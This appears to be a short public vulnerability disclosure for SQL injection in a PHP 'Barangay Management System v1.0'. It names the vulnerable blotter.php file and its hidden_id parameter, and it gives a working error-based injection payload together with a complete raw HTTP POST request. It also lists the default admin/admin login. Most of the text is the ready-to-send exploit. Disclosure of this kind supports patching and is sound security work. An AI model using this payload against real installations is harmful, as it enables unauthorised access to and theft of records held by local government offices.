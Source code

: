 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

Vulnerability Author: CSZ

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/blotter/blotter.php

Vulnerability location: /bmis/pages/blotter/blotter.php,hidden_id

[+] Payload: hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id

```sql
POST /bmis/pages/blotter/blotter.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/blotter/blotter.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 329

hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&txt_edit_cname=&txt_edit_cage=1&txt_edit_cadd=1&txt_edit_ccontact=1&txt_edit_pname=&txt_edit_page=1&txt_edit_padd=1&txt_edit_pcontact=1&txt_edit_complaint=1&ddl_edit_acttaken=1st+Option&ddl_edit_stat=Solved&txt_edit_location=1&btn_save=Save&table_length=10
```

![image](https://user-images.githubusercontent.com/54017627/173301744-520c64e5-2e12-4849-b5b9-28f435d39a41.png)

